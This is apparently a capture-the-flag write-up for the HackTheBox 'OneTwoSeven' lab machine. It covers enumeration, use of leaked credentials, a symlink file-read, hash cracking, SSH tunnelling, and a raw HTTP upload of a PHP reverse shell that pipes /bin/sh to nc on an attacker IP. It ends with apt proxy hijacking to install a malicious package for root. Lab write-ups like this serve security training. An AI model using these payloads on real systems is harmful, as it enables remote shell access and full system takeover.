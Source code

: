 # Nmap
nmap -sC -sV -oA nmap/onetwoseven.htb 10.10.10.133

```
# Nmap 7.70 scan initiated Wed Apr 24 15:36:04 2019 as: nmap -Pn -sC -sV -oA nmap/onetwoseven 10.10.10.133
Nmap scan report for 10.10.10.133
Host is up (0.16s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10*deb9u6 (protocol 2.0)
| ssh-hostkey:
|   2048 48:6c:93:34:16:58:05:eb:9a:e5:5b:96:b6:d5:14:aa (RSA)
|   256 32:b7:f3:e2:6d:ac:94:3e:6f:11:d8:05:b9:69:58:45 (ECDSA)
|_  256 35:52:04:dc:32:69:1a:b7:52:76:06:e3:6c:17:1e:ad (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Page moved.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Apr 24 15:37:22 2019 -- 1 IP address (1 host up) scanned in 77.43 seconds

``` 
# SFTP
we found a sftp login credentials on port 80 enumeration.

```
Username: ots-kMjNlZjE
Password: a6d23ef1
```
lets login in with command

```
sftp ots-kMjNlZjE@10.10.10.133
```
After some web searching and some experimenting we find that we can create sysmlnks and apache (which has more privleges that sftp will open them in url http://10.10.10.133/ots-kMjNlZjE/ .
so create a syslnk of root directory with name nice
```
sysmlnk root /
```
Opening it in web browser at url http://10.10.10.133/ots-kMjNlZjE/root .

# Web Exploitation
## Obtaining hash
On browsing the the url http://10.10.10.133/ots-kMjNlZjE/root , we find a file login.php.swp. Its a vim backup file, on viewing it, we get. a hash and of user ots-admin.
```
ots-admin
11c5a42c9d74d5442ef3cc835bda1b3e7cc7f494e704a10d0de426b2fbe5cbd8 
```
## Cracking hash
Crack it with john (pass.hash is file only containing hash)
```
john --wordlist=rockyou.txt pass.hash
```
we get password as *Homesweethome1*
## SSH tunneling
Further exploring the source code we get a admin login at localhost:60080 of the remote machine.
Using ssh tunneling to tunnel our localhost:60080 to remote machine localhost:60080
```
ssh -N -L 60080:127.0.0.1:60080 ots-kMjNlZjE@10.10.10.133
```
~we can do this as sftp is bases on ssh
## Shell Upload
We get a login prompt after which we get a menu.php, with several php addons. After some enumeration and reading ots-addon-man, we upload reverse shell as following request.
~i use python for creating this request.
```
POST /addon-download.php/addon-upload.php HTTP/1.1
Host: 127.0.0.1:60080
User-Agent: Mozilla/5.0 Gecko/20100101 Firefox/65.0
Accept: text/html,application/xhtml*xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------1805684181392670424798019532
Content-Length: 540
DNT: 1
Connection: close
Cookie: PHPSESSID=95bpafranr5ugmd7sh8b2895p5
Upgrade-Insecure-Requests: 1

-----------------------------1805684181392670424798019532
Content-Disposition: form-data; name="addon"; filename="ots-nice.php"
Content-Type: application/x-php

<?php session_start(); if (!isset ($_SESSION['username'])) { header("Location: /login.php"); }; if ( strpos($_SERVER['REQUEST_URI'], '/addons/') !== false ) { die(); };
# OneTwoSeven Admin Plugin
# OTS SHELL
echo shell_exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.39 4444 >/tmp/f");
?>

-----------------------------1805684181392670424798019532--
```
# Privelge Escalation
~I used LinEnum.sh as enumeration script
As result of command ```sudo -l``` we find that we run apt-get update && apt-get upgrade and change environment variable http_proxy, so apt is our attack vector.
on internet we find an apt mitm (man in the middle) vuln, so did the following steps.
1. Follow the blog post make the malicious deb file, Package file.
~ we will only need these file you can ignore the rest of blog.
1. Create the repo stucture,

```
.:
devuan

./devuan:
dists  pool

./devuan/dists:
ascii

./devuan/dists/ascii:
main

./devuan/dists/ascii/main:
binary-amd64

./devuan/dists/ascii/main/binary-amd64:
Packages

./devuan/pool:
main

./devuan/pool/main:
v

./devuan/pool/main/v:
vim

./devuan/pool/main/v/vim:
vim_11.1.0875-3_amd64.deb
```

1. Make the box proxy to us,

```
export http_proxy=http://10.10.15.69:3128/
```
1. Proxy to a Proxy 
* the box proxies to a proxy on our box, the proxy tunnels locally to port 80.
~we doing this so the second proxy uses our /etc/hosts to resolve packages.onetwoseven.htb to 127.0.0.1. 
* we will use squid to listen on port 3128 (i.e default), which will forward it localhost listening on port 80
* Make appropriate changes to /etc/squid/squid.conf allow connections only to localhost host, otherwise the target box will be updated which is not good.
* Add this to squid.conf
```
acl GOOD dst 127.0.0.1
 http_access allow GOOD
 http_access deny all

```
* Run the command to start squid service
```
sudo service squid start
```
1. Setting Up Server
* Edit the /etc/hosts file
```
127.0.0.1 packages.onetwoseven.htb
```
* Start the HTTP Server on Port 80
```
sudo python -m SimpleHTTPServer 80
```

## Getting root shell,
Now all you gotta do is update and upgrade the box, which update your malicious deb package, thus giving you root shell.